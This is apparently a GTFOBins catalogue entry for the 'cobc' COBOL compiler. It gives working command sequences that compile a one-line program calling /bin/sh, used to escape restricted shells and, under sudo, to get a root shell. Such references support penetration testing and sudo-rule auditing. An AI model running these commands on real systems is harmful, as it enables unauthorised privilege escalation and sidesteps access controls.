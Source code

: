 # GTFOBin: cobc

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -d)
echo 'CALL "SYSTEM" USING "/bin/sh".' > $TF/x
cobc -xFj --frelax-syntax-checks $TF/x
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -d)
echo 'CALL "SYSTEM" USING "/bin/sh".' > $TF/x
sudo cobc -xFj --frelax-syntax-checks $TF/x
```